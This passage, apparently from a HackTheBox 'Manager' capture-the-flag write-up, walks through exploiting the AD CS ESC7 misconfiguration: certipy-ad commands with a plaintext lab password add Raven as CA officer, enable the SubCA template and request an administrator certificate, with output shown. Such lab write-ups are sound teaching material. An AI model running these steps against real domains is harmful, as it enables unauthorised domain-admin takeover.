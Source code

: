 ```sh
MANAGER.HTB\Raven
ManageCertificates
: MANAGER.HTB\Administrators
MANAGER.HTB\Domain Admins
MANAGER.HTB\Enterprise Admins
[!] Vulnerabilities
ESC7
: 'MANAGER.HTB\\Raven' has dangerous
permissions
Certificate Templates
: [!] Could not find any certificate
templates
```

The report indicates that the user Raven possesses hazardous permissions, particularly having `ManageCA` rights over the Certification Authority. 

This implies that by leveraging the ESC7 scenario, we could potentially elevate our privileges to Domain Admin while operating as user Raven. 

A detailed explaination about the exploitation process for the ESC7 scenario can be found [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7).

## Exploitation

To exploit this, we'll need to first add Raven as an "officer", so that we can manage certificates and issue them manually.

```sh
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -add-officer raven -debug
```

Now that we are officer, we can issue and manage certificates. The `SubCA` template can be enabled on the CA with the `-enable-template` flag.

```sh
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -enable-template subca
```

The enabled certificate templates can be listed using the `-list-templates` flag.
```sh
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -list-templates
```

The prerequisites for the attack are now fulfilled. We have Manage Certificates permission,granted through ManageCA , and have ensured that the SubCA template is enabled.

Now let us request a certificate based on the SubCA template. This request will be denied, but we will obtain a request ID and a private key, which we save to a file.

```sh
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb

Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 -
CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not
allow the current user to enroll for this type of certificate.
[*] Request ID is 13
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
[-] Failed to request certificate
```
